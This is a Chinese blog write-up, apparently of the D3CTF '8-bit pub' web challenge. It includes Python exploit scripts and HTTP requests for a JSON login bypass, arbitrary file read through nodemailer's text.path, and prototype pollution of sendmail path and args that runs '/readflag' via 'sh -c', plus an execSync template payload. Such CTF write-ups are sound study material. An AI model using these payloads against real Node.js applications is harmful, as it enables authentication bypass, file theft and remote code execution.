<!--yml
category: 未分类
date: 2022-04-26 14:51:11
-->

# D3CTF 8-bit解题详解_N0Tai1学习又咕了的博客-CSDN博客

> 来源：[https://blog.csdn.net/lllffg/article/details/114548517](https://blog.csdn.net/lllffg/article/details/114548517)

# 8-bit pub

(在模板注入的路上莽了一整天，然后发现不是模板注入23333333)

尝试SQL注入，猜测后台sql语句

```
select * from user where username='xxx' and password='xxx'; 
```

一系列操作后没有结果



源码中调用了这个模块

[node.js中 express-session的安装使用及session的持久化](https://blog.csdn.net/Peachblossom_/article/details/83421880?utm_medium=distribute.pc_relevant.none-task-blog-baidujs_title-0&spm=1001.2101.3001.4242)

[express-session中的resave和saveUninitialized](https://blog.csdn.net/weixin_34310127/article/details/91714746)

[express+session实现简易身份认证](https://www.cnblogs.com/chyingp/p/express-session.html)

然后我找到了这个[文章](https://xz.aliyun.com/t/4676)



对比题目的session后，发现和文章的很相似

```
s%3AK8ZDDh7btfy5iCYOqDDIiBTvI2jPY_5l.TipHczw%2BtyDr%2FUPVusz6CeIk2dY0TFiyGvydM3dJo38 
```

本地测试一下

```
var express=require('express');/*引入*/
var app=new express();/*实例化*/
var session = require("express-session");//引入中间件
var FileStore = require('session-file-store')(session);
const http = require("http");

var identityKey = 'skey';
app.use(session({
    name: identityKey,
    secret: 'chyingp',  // 用来对session id相关的cookie进行签名
    store: new FileStore(),  // 本地存储session（文本文件，也可以选择其他store，比如redis的）
    saveUninitialized: false,  // 是否自动保存未初始化的会话，建议false
    resave: false,  // 是否每次都重新保存会话，建议false
    cookie: {
        maxAge: 10 * 1000000  // 有效期，单位是毫秒
    }
}));
app.get('/', function (req, res){ 
	if (req.session.userinfo){
		res.send('Hello World!你好！欢迎'+req.session.userinfo+'回来！'); 
	}else{
		res.send('未登录！'); 
	}
});
app.get('/login', function (req, res){ 
	req.session.userinfo="Tom";//设置session
	res.send('登录成功！'); 
});
const port = process.env.PORT || "3000"
const server = http.createServer(app);
server.listen(port); 
```

生成一个文件

```
cookie:
s%3A_3wTBmlBQ0BPyCRJs5V57t3tdg7qU-9Z.fCBncBDiBxKjEkcUDQQ8p1iUDCWuQq%2FRM6N4WDtXNe0; name=s%3ArC79tK9qJgzwzwVX8mlH2tFfTtjxrt3E.9PtVQ6MtJs0C1ZBZddeMmDMWGaJQiAVR2bL%2F6CJNAtA
文件名:
8EnYwNEhfAS-yPWP_SRLf-b-ZzWoI5ea.json
内容:
{"cookie":{"originalMaxAge":10000000,"expires":"2021-03-06T05:07:20.355Z","httpOnly":true,"path":"/"},"userinfo":"Tom","__lastAccess":1614997240355}

cookie:
s%3A_3wTBmlBQ0BPyCRJs5V57t3tdg7qU-9Z.fCBncBDiBxKjEkcUDQQ8p1iUDCWuQq%2FRM6N4WDtXNe0; name=s%3A8EnYwNEhfAS-yPWP_SRLf-b-ZzWoI5ea.frf6iPXZitbz21A4K4pLUYIVQc12UzX42gSTMYLjbAM
文件名:
WF33GSNvkdoCTS6OxV060ruY8M6flHYQ.json
内容:
{"cookie":{"originalMaxAge":10000000,"expires":"2021-03-06T05:08:43.966Z","httpOnly":true,"path":"/"},"userinfo":"Tom","__lastAccess":1614997323966} 
```

参考[文章](https://ctfnews.ru/news/1648)，再根据hint，应该是伪造+RCE在[Github](https://github.com/valery-barysok/session-file-store)中找到了关于保存的方法



默认存在当前目录的sessions目录下



sessionId拼接上.json为文件名



这里可以看到，cookie内的内容可控，我们可以控制这个地方来进行RCE，根据题修改一下测试代码

```
var express=require('express');/*引入*/
var app=new express();/*实例化*/
var session = require("express-session");//引入中间件
var FileStore = require('session-file-store')(session);
const http = require("http");
const bodypaser=require('body-parser')
//设置中间件
app.use(bodypaser.urlencoded({extended: false}))
//解析json格式数据
app.use(bodypaser.json())

app.use(session({
    name: "session",
    secret: "******", 
    //未知的加密key
    store: new FileStore({}), 
    //数据持久化方式，这里表示本地文件存储
    resave: false, 
    //是否每次都重新保存会话，建议false
    saveUninitialized: false
    //是否自动保存未初始化的会话，建议false
}))
//基础路由 
app.get('/', function (req, res) { 

	//获取session
	if (req.session.userinfo){
		res.send('Hello World!你好！欢迎'+req.session.userinfo+'回来！'); 
	}else
	{
		res.send('未登录！'); 
	}
});
//设置
app.post('/login', function (req, res) { 
	let {username,password} = req.body
	console.log(req.body)
	req.session.username = username;
	if(password == 'admin'){
		res.send('登录成功！'); 
	}
	else{
		res.send('登录失败')
	}
});
const port = process.env.PORT || "3000"
const server = http.createServer(app);
server.listen(port); 
```

```
{"cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"},"username":"<%- global.process.mainModule.require('child_process').execSync('ls') %>","__lastAccess":1615003247565} 
```

然后我写了一个推出json名称的脚本

```
 import requests
from urllib.parse import quote, unquote
import sys

username = "<%- global.process.mainModule.require('child_process').execSync('/readflag') %>"
print(username)
url = 'http://139f61ba6b.8bit-pub.d3ctf.io/user/signup'
print(url)
session = requests.session()
data = {
    "username":username,
    "password":"123",
    "password2":"123"
        }
response = session.post(url=url,data=data)
print(response)

url = 'http://139f61ba6b.8bit-pub.d3ctf.io/user/signin'
print(url)
session = requests.session()
data = {
    "username":username,
    "password":"123",
        }
response = session.post(url=url,data=data)
print(response)
Cookie= dict(session.cookies)
print(Cookie)
cookie = unquote(session.cookies['session'])
print(cookie)
session_id = cookie[cookie.find(':') + 1:cookie.find('.')]
print(f'session id: {session_id}')
session_id = cookie[cookie.find(':') + 1:cookie.find('.')]
print(f'session id: {session_id}')

path = f'../../sessions/{session_id}.json'
print(path) 
```

搞了一宿，发现这么搞需要渲染一下…然而这个题没有任何渲染的点，当场死亡…

{“username”:“admin”,“password”:{“password”:true}}

可以直接进入admin


这里导入了nodemailer，然后我在这个模块的源码中找到了一个rce的地方



然后sendmail有一个任意文件读取的洞，文章在[这里](https://nodemailer.com/message/)

```
POST /admin/email HTTP/1.1
Host: 139f61ba6b.8bit-pub.d3ctf.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 89
Origin: http://139f61ba6b.8bit-pub.d3ctf.io
Connection: close
Referer: http://139f61ba6b.8bit-pub.d3ctf.io/admin
Cookie: SERVERID=97e74b5b89c308a1c4d2808bc54f67bb|1615094461|1615094461; session=s%3A3vtnIRCWk2nlxPgRfzSYOh3-4TWcWdk4.7cll3V0m0hNvbBtleNFbN7Q9C7m%2BrMQPGBKi%2FteBURw

{"to":"1142149972@qq.com","subject":"hello","text":{"path":"/var/www/web/utils/mail.js"}} 
```



读一下github上的那个路径

```
{"to":"1142149972@qq.com","subject":"hello","text":{"path":"/var/www/web/node_modules/nodemailer/lib/sendmail-transport/index.js"}} 
```



然代码中有一个点是这样的



污染path参数和args就可以造成rce

在admincontroller.js中有一个污染的点



然后只污染这两个点的话没办法调用 SendmailTransport，所以还需要污染一下nodemailer.js中的sendmail参数



具体污染成什么…看[这里](https://www.cnblogs.com/chyingp/p/node-learning-guide-child_process.html)吧

```
 import requests

url = 'http://139f61ba6b.8bit-pub.d3ctf.io/'
session = requests.session()
log_headers = {
    'Content-Type': 'application/json'
}
log_data = '{"username":"admin","password":{"password":true}}'
log_res = session.post(url + 'user/signin', data=log_data, headers=log_headers)
print(log_res.text)
getflag_data = '{"to":"1142149972@qq.com","subject":"N0Tai1","text":"xxxx","constructor.prototype.path":"sh","constructor.prototype.sendmail":true,"constructor.prototype.args":["-c","/readflag>/tmp/flag"]}'
getflag_res = session.post(url+'admin/email',data=getflag_data,headers=log_headers)
print(getflag_res.text) 
```

然后配合包含就能读到flag

